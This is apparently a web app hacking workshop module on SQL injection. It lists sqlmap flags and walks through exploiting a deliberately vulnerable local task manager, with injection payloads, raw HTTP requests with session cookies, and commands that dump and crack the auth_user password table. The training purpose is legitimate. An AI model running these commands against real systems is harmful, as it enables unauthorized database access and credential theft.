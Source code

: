 # SQL Injection
### Description
Ability to influence the structure of a SQL database query through unsafe includes of user input.

* ` stmt = "SELECT * FROM users WHERE username=" + INPUT[user]`

### Tool
#### sqlmap
http://sqlmap.org - Command Line tool for dealing with SQL injection flaws

Required flags
- `-u URL` Target URL

Commonly-used configuration flags
- `--data=DATA` String to be sent through POST
- `--cookie=COOKIE` Cookie data for authenticated sessions
- `--proxy=PROXY` Route sqlmap requests through a proxy so you can see what it's doing
- `-p TESTPARAMETER` Parameter you want to check
- `-r REQUESTFILE` Load HTTP request from the following file

Quick check data access flags
- `-b, --banner` Retrieve DBMS banner
- `--current-user`
- `--current-db`

Dump the data flags
- `--dump-all` careful, this can be slow
- `--dump` dump the targeted table data
- `-D DB` target database
- `-T TBL` target table
- `-C COL` target column


## Walkthroughs

| Application | Location | Parameter | Tool |
| ---- | ---- | ---- | ---- |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/forgot_password/ | email | sqlmap |
| Vulnerable Task Manager | http://127.0.0.1:8000/taskManager/7/project_details/ | URL parameter | sqlmap |

### Forgot Password SQL Injection
#### Step 1 - Validate SQL Injection Vulnerability
Validate access to the vulnerable task manager application, you should see the following login page.

![vtm login](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-login.png)

Access the Forgot Password Page

![vtm forgot password](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-forgot-password.png)

Validate that the email parameter throws a SQL error message by inserting `test@tm.com'` into the Email form field

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-email-sql-error.png)


#### Step 2 - Use sqlmap to confirm vulnerability
Since the forgot password page does not require authentication, use some of the above flags to confirm the vulnerability by using flags for posting data to the endpoint
```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" --banner
```

sqlmap will step through every parameter and ask if it should check for possible sql injection, you can bypass this check using `-p email`

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --banner
```

#### Step 3 - Explore commands sent using sqlmap with a proxy
Since you have confirmed that the endpoint is vulnerable to SQL Injection and exploitable with sqlmap, now use Burp Suite to view the requests being sent to the server by dumping the full schema of the backend mysql database.

```
sqlmap.py -u http://127.0.0.1:8000/taskManager/forgot_password/ --data="email=test@tm.com" -p email --proxy=http://127.0.0.1:8080 --schema
```

The full request to dump a portion of the schema looks as follows, use Burp Suite HTTP History to view similar requests.

```
POST /taskManager/forgot_password/ HTTP/1.1
Content-Length: 258
Accept-Encoding: gzip, deflate
Connection: close
Accept: */*
User-Agent: sqlmap/1.2.8.15#dev (http://sqlmap.org)
Host: 127.0.0.1:8000
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded; charset=utf-8

email=test%40tm.com%27%20AND%20EXTRACTVALUE%281890%2CCONCAT%280x5c%2C0x716a6a7071%2C%28SELECT%20MID%28%28IFNULL%28CAST%28schema_name%20AS%20CHAR%29%2C0x20%29%29%2C1%2C21%29%20FROM%20INFORMATION_SCHEMA.SCHEMATA%20LIMIT%202%2C1%29%2C0x71626a7071%29%29--%20UufD
```

### Project Details SQL Injection

#### Step 1 - Validate SQL Injection Vulnerability
Navigate back to the login page of vtm and login as `chris` with password `test123`

![vtm dashboard](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-chris-dashboard.png)

Browse to the *Marketing Campaign* project from the dashboard

![vtm project detail](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-details.png)

Check whether the URL project id, embedded between *taskManager* and *project_details* is vulnerable to sql injection by adding ` OR` (that's *space*OR) after the number 7.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-project-sql-error.png)

#### Step 2 - Setup sqlmap to exploit the project details SQL Injection vulnerability

Since this page is only accessible to authenticated users, we will need to pull the cookie value associated with `chris` and add it to the sqlmap request.

Get all of the cookie headers using the browser's developer tools or viewing the request in Burp Suite. The request for the project details page will look similar to the following:

```
GET /taskManager/7/project_details/ HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc
```

Since we currently don't know which of these values are required for user authorization, copy the entire string for use with sqlmap.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7/project_details/" --cookie="csrftoken=CMk8epAzX7UDyXl2R0zBa2yfmZ8muICjJ7L2ZmUpKV962mlRNSthtANTaVkYubI0; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0olo:wR61ZH3DwyceV4rXFs5WCkw-lXQ" --current-db
```

Running this command with the proper cookie value does not result in a successful sqlmap session, but will output something similar to the following:

```
[14:16:00] [WARNING] URI parameter '#1*' does not seem to be injectable
[14:16:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
[14:16:00] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 127 times
```

Since sqlmap does not recognize the project id parameter embedded in the URL, use the `*` character to denote where the injection should take place

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --current-db
```

#### Step 3 - Exploit the project detail SQLi to harvest user credentials

Not that we know this injection point is valid, let's attempt to enumerate the *auth_user* table within the *vtmdb* database by appending `--dump -D vtmdb -T auth_user` to the sqlmap command.

```
./sqlmap.py -u "http://127.0.0.1:8000/taskManager/7*/project_details/" --cookie="csrftoken=i7yWZ7TaR5E2MlgtlpwZY3btCn7LTbnPNKCg0jUnnXk3vkJvUUn88A8pvNcu4H2p; sessionid=.eJxrYJk6nQECaqdo9PDGJ5aWZMSXFqcWxWemTOlhNJ7SI4QklpSYnJ2aB5TQTMlKzEvP10vOzyspykzSAynRg8oW6_nmp6TmOMHU8iMZkJFYnDGlR8Mi0TQtycg0Oc0g0cQsOcnCINkk2dQwLdXU1MTA1NzAyNLUIjU12dBsSqkeAFDNOHQ:1g0rQd:rLOHDuMX4-V_8MtaqmWRGiJhtrc" --dump -D vtmdb -T auth_users
```

Allow sqlmap to run a brute-force attack against the identified md5 hashes and you should get information about most of the vtm accounts.

![vtm sql error](https://github.com/justinlarson/Web-App-Hacking-Workshop/raw/master/img/vtm-sqlmap-auth-user.png)

Congratulations! Test out `dade`'s password to verify that the credentials are active.

## Challenges


| Challenge | Difficulty |
| ---- | ---- |
| Altoro Mutual | http://demo.testfire.net |
| Bypass Login | :star: |
| All your transaction belong to us and so do your DBs,tables,columns,usernames,and passwords | :star::star::star: |
| Juice Shop | http://localhost:3000 |
| Bypass login | :star: |
